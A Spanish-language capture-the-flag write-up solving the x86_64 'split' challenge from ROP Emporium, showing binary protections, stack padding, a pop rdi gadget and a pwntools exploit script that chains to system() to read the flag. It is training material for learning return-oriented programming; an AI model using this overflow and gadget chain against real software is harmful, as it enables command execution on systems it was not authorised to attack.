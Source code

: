 ```yaml
---
layout: post
title: Split64 - RopEmporium
tags: [ctf, rev, ropemporium]
---
```


**Autor**: RopEmporium \\
**Challenge**: 2

![img](/imgs/write-ups/ropemporium/split64/split64.png#center)

## Introducción

En este writeup resuelvo la version **x86_64**.

Recomiendo leer antes la version **x86** ya que solo menciono las diferencias fundamentales para la resolución.

## Información del binario

```
[0x7fc8d82d99c0]> iI
arch     x86
baddr    0x400000
binsz    6805
bintype  elf
bits     64
canary   false
class    ELF64
compiler GCC: (Ubuntu 7.5.0-3ubuntu1~18.04) 7.5.0
crypto   false
endian   little
havecode true
intrp    /lib64/ld-linux-x86-64.so.2
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  AMD x86-64 architecture
nx       true
os       linux
pic      false
relocs   true
relro    partial
rpath    NONE
sanitize false
static   false
stripped false
subsys   linux
va       true
```

## Diferencias

### Padding

![img](/imgs/write-ups/ropemporium/split64/stack.png#center)

Como se puede ver, entre la variable y la dirección de retorno a sobreescribir hay 40 bites (0x28).

### UsefulFunction

![img](/imgs/write-ups/ropemporium/split64/useful.png#center)

La dirección del comando a ejecutar se envía a la llamada a system a través del registro **rdi**. Por lo que habrá que utilizar un gadget para modificar su valor.

## Explotación

### Gadget

Utilizo radare2 para buscar un gadget que me permite modificar el registro rdi.

![img](/imgs/write-ups/ropemporium/split64/poprdi.png#center)

Utilizo el primero aunque existen muchos más de los que se muestra en la imágen.

### Script

exploit.py

```python
#!/bin/python3

from pwn import *

p = process("./split")
p.recvuntil(">")

payload = b""
payload += b"A" * 40        # padding
payload += p64(0x004007c3)  # pop rdi gadget address
payload += p64(0x00601060)  # 0x00601060 .data ascii "/bin/cat flag.txt"
payload += p64(0x0040074b)  # 0x0040074b call sym.imp.system 

p.sendline(payload)

print(p.recvall())
```

## Solución

Al ejecutarlo, obtenemos la bandera.

```
kali@kali:~/Desktop/ropemporium$ python3 exploit.py
[+] Starting local process './split': pid 73283
/home/kali/Desktop/ropemporium/exploit.py:6: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.recvuntil(">")
[+] Receiving all data: Done (119B)
[*] Stopped process './split' (pid 73283)
b' Thank you!\nROPE{a_placeholder_32byte_flag!}\nsplit by ROP Emporium\nx86_64\n\nContriving a reason to ask user for data...\n'
```

Y con esto termina mi solución. :)

